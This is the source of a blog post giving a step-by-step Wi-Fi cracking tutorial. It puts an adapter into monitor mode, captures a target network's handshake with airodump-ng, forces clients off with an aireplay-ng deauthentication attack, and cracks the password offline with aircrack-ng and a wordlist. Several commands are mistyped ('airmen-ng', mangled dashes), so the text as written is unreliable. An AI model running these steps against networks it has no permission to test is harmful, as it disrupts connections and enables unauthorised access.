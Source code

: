 ```yaml
---
title: Wifi Hacking
author: Radeel Ahmad
pubDatetime: 2024-05-16T12:22:23Z
slug:  Wifi hacking 101
featured: false
draft: false
tags:
  - hacking
  - wireless-hacking
  - wifi-hacking
ogImage: https://res.cloudinary.com/noezectz/v1663745737/astro-paper/astropaper-x-forestry-og_kqfwp0.png

description:
  step-by-step method to hack WIFI using a network adapter.
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Network Adapter

## Let’s Start…..

The network adapter I am using for this attack demo is **Alpha’s AWUS036H**.

![Network Adapter](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-1.jpg)

After connecting the network adapter, open the Kali Linux machine and write the followingcommand on the terminal.

```code
iwconfig
```

![image1](https://github.com/RadeelAhmad/my-portfolio/blob/main/src/content/blog/Images/WH-2.png)

When we connect the adapter, you’ll see the wlan0 interface on your terminal screens. To change the mode to `Monitor Mode`, use the following command.

```code
sudo airmen-ng start wlan0 
```

![image1](Images/WH-3.png)

Again, use the command mentioned below to verify the monitor mode.

```code
iwconfig
```

![image1](Images/WH-4.png)

As you can see, the mode has been changed. Now, use the airodump-ng tool to capture wireless network traffic on the specified interface.

```code
sudo airodump-ng wlan0
```

![image1](Images/WH-5.png)

It will display information about nearby **WiFi Networks**. Our intended interface is `Alvish Bhaii`. Then, copy the `BSSID`.

The Following command tells us how many devices are connected tothis Network interface.

```code
sudo airodump-ng wlan0 -d <mac-address>
```

![image1](Images/WH-6.png)

Remember, WiFi Networks always occupy a limited radius of the area. So, you should be within that radius to discover the WiFi network. The next step is to capture the handshake, using the **death attack**.

```code
sudo airodump-ng -w <filename> –c 1 --bssid <target-mac> wlan0
```

![image1](Images/WH-7.png)

In this attack, we save the handshake in a `.pcap` file. The next step is the death attack: We open another terminal and type the following command.

```code
sudo aireplay-ng -–deauth 0 -a <target-mac> wlan0
```

![image1](Images/WH-8.png)

If a disconnected client tries to connect with the wifi, they generate a four-way handshake.

**What is a four-way handshake?**
A four-way handshake is a message exchange between an access point and the client device.

![image1](Images/WH-9.png)

Now, you see that it captures the handshake. Type in the ls command to see the file.

![image1](Images/WH-10.png)

In our attack method, we are going to crack the password in our test-01.cap in encrypted form. The cracking is totally offline; we don’t need an internet connection or Wi-Fi adapter for it. We’ll use their crack toolto crack the password.

```code
aircrack-ng <filename.cap> -w /usr/share/wordlists/rockyou.txt
```

![image1](Images/WH-11.png)

**You see that the key is found and cracked Successfully.**

Thank You for reading this blog. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂
